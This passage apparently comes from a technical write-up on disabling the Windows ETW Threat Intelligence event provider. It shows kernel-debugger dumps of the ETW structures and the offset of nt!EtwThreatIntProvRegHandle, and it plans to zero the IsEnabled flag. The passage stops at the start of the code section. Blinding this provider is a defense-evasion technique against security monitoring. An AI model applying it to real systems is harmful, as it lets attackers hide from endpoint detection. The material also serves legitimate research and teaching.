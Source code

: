 The _ETW_REG_ENTRY structure contains a GuidEntry attribute that stores a pointer to an _ETW_GUID_ENTRY structure.

<pre>
lkd> dt _ETW_GUID_ENTRY 0xffff950e`645c66e0 
nt!_ETW_GUID_ENTRY
   +0x000 GuidList         : _LIST_ENTRY [ 0xffff950e`64684828 - 0xffff950e`647faca0 ]
   +0x010 SiloGuidList     : _LIST_ENTRY [ 0xffff950e`645c66f0 - 0xffff950e`645c66f0 ]
   +0x020 RefCount         : 0n2
   +0x028 Guid             : _GUID {f4e1897c-bb5d-5668-f1d8-040f4d8dd344}
   +0x038 RegListHead      : _LIST_ENTRY [ 0xffff950e`64cff810 - 0xffff950e`64cff810 ]
   +0x048 SecurityDescriptor : 0xffffc885`0d4d59a0 Void
   +0x050 LastEnable       : _ETW_LAST_ENABLE_INFO
   +0x050 MatchId          : 0x00000114`dcfa5555
   <mark>+0x060 ProviderEnableInfo : _TRACE_ENABLE_INFO</mark>
   +0x080 EnableInfo       : [8] _TRACE_ENABLE_INFO
   +0x180 FilterData       : (null) 
   +0x188 SiloState        : 0xffff950e`64684000 _ETW_SILODRIVERSTATE
   +0x190 HostEntry        : (null) 
   +0x198 Lock             : _EX_PUSH_LOCK
   +0x1a0 LockOwner        : (null) 
</pre>

Within this object is the ProviderEnableInfo field (type _TRACE_ENABLE_INFO) that determines whether or not the event provider is enabled.

<pre>
lkd> dx -id 0,0,ffff950e685b2080 -r1 (*((ntkrnlmp!_TRACE_ENABLE_INFO *)0xffff950e645c6740))
(*((ntkrnlmp!_TRACE_ENABLE_INFO *)0xffff950e645c6740))                 [Type: _TRACE_ENABLE_INFO]
    <mark>[+0x000] IsEnabled        : 0x1 [Type: unsigned long]</mark>
    [+0x004] Level            : 0xff [Type: unsigned char]
    [+0x005] Reserved1        : 0x0 [Type: unsigned char]
    [+0x006] LoggerId         : 0x0 [Type: unsigned short]
    [+0x008] EnableProperty   : 0x40 [Type: unsigned long]
    [+0x00c] Reserved2        : 0x0 [Type: unsigned long]
    [+0x010] MatchAnyKeyword  : 0x114dcfa5555 [Type: unsigned __int64]
    [+0x018] MatchAllKeyword  : 0x0 [Type: unsigned __int64]
</pre>

`IsEnabled` field determines whether or not the event provider is enabled or disabled.

## Code - EnumerateETW Function

We just need to reflect that in our code and and change `IsEnabled` to `0x00`.

First step is to get the virtual address of `nt!EtwThreatIntProvRegHandle`

First let's get the offset to the function from the nt base

<pre>
lkd> ? nt!EtwThreatIntProvRegHandle - nt
Evaluate expression: 15721304 =  <mark>00000000`00efe358</mark>
</pre>
